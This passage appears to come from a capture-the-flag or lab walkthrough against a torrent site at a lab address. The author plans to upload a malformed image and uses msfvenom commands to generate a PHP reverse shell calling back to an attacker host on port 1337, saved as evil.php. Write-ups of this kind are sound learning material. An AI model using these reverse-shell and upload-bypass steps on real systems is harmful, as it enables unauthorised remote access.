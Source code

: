 ![uploads.png](/assets/images/KaliSetup/uploads.png)

This might work if I can upload a malformed image. The edit specifies this needs to be in an image format and no larger than 100Kb, a little limiting but maybe usable.

I check the torrent link 10.10.10.6/torrent/torrents.php?mode=download&id=723bc28f9b6f924cca68ccdff96b6190566ca6b4 which in theory could be big, but the url stays in the same page, with the API looking to fetch a resource from an unknown storage location. I'd need the source code to work that out, at this point a malformed image looks like a good option to try.  

First I need a payload, I'm going with a raw reverse shell that will connect back to me on port 1337 in php 

{% highlight shell %}
msfvenom -p php/reverse_php lhost=$ATTACK lport=1337 -f raw 
{% endhighlight %}

This gives me:

{% highlight plaintext %}
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 3024 bytes
/*<php>/**/
EXPLOIT
{% endhighlight %}

Under my 100kb, that beats the size requirement. I specify a file to hold my code:


{% highlight shell %}
msfvenom -p php/reverse_php lhost=$ATTACK lport=1337 -f raw -o evil.php
{% endhighlight %}
